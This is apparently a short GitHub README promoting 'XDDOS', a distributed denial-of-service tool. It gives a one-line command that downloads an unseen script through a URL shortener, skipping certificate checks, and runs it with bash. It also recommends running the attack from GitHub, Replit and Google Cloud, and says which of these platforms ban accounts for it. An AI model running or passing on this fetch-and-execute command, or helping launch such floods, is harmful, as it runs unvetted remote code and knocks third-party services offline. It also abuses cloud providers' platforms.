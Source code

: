# XDDOSpower

XDDOS no lag in attacker
cloud google is best XDDOS

[thank AnAverageBeing](https://github.com/AnAverageBeing/XDDOS)
# command
```
curl -sLkO https://is.gd/XDDOS ; bash XDDOS

```

# run command in
github (XDDOS best but ban acc)

replit (XDDOS Normal but no ban)

cloud google (super super bad no ban)
